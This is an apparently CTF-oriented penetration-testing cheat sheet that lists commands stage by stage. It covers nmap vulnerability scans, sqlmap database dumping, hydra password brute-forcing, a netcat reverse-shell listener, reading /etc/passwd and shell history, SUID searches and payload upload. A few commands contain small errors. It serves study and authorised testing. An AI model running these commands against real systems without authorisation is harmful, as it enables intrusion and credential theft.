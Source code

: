 # 1° Scan Nmap 

$sudo nmap -Pn -A [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn -sV -sC -O [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn --script vuln [Target_IP]

$sudo nmap -Pn -p 80 --script http-enum,http-robots.txt [Target_IP]

$sudo nmap -Pn -p 80 --script http-sql-injection [Target_IP]

$sudo nmap -Pn -p 80 --script http-passwd --script-args http-passwd.root=/test/ [Target_IP]

$sudo nmap -Pn -p 80 --script http-vuln-* [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-anon [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-proftpd-backdoor [Target_IP] - ProFTPD 1.3.3c

$sudo nmap -Pn -p 21 --script ftp-vsftpd-backdoor [Target_IP] - vsFTPd 2.3.4

#nmap -Pn -p 111 --script nfs-ls,nfs-statfs,nfs-showmount [Target_IP]

#nmap -Pn -p 445 --script smb-enum-shares,smb-enum-users [Target_IP]

#nmap -Pn -p 445 --script smb-vuln-* [Target_IP]

https://www.exploit-db.com

# 2° Scan Dirb/Gobuster

$dirb http://example.com -o dirb-report.txt

$gobuster -u http://example.com -x php,html,js,txt -w /usr/share/dirb/wordlists/big.txt dir

# 3° Scan SQLMap/Burp Suite/ZAP

$sqlmap -u http://Target_IP/login.php --forms --dump

$sqlmap -u http://Target_IP/listproducts.php?cat=1 –-dbs

$sqlmap -u  http://Target_IP/listproducts.php?cat=1 –-dbs -D products –-tables

Burp Suite > Proxy > Intercept > Open Browser > Intercept on

Burp Suite > Intruder > Sniper attack > Positions Add > Payload Type = Simple list

# 4° Brute Force

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP rdp

# 5° Gain Access

http://example.com/login [Exibir código fonte da página]

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ftp Target_IP

$ssh user@Target_IP

$ssh -i id_rsa user@Target_IP

$ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$sudo mount -o rw Target_IP:/backup /tmp/dir-target

$sudo mount -t cifs -o username=user_name //Target_IP/share_name /mnt/dir-target

$smbclient //Target_IP/shared/dir

# 6° Reverse Shell

Execute no terminal shell do Kali Linux $nc -lvnp 6666

php, python, nc

https://github.com/pentestmonkey/php-reverse-shell

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://www.sans.org/posters/netcat-cheat-sheet

# 7° Search Priv-Esc

$cat /etc/proc/version

$cat /etc/issue

$cat /etc/passwd

$cat /etc/crontab

$cat /etc/exports

$cat ~/.*history | less

$id

$ls -la /

$ls -la /home

$sudo -l

$getcap -r / 2>/dev/null

$find / -perm -o w -type d 2>/dev/null

$find / -perm -u=s -type f 2>/dev/null

$find / -name perl* python* gcc* 2>/dev/nul

$find /home -name flag*.txt

$find / -user "www-data" -name "*" 2>/dev/null

https://gtfobins.github.io

https://www.exploit-db.com

# 8° Deploy Payload

$python2 -m SimpleHTTPServer 8000

$python3 -m http-server 8000

$scp payload.sh user@Target_IP:/home/user
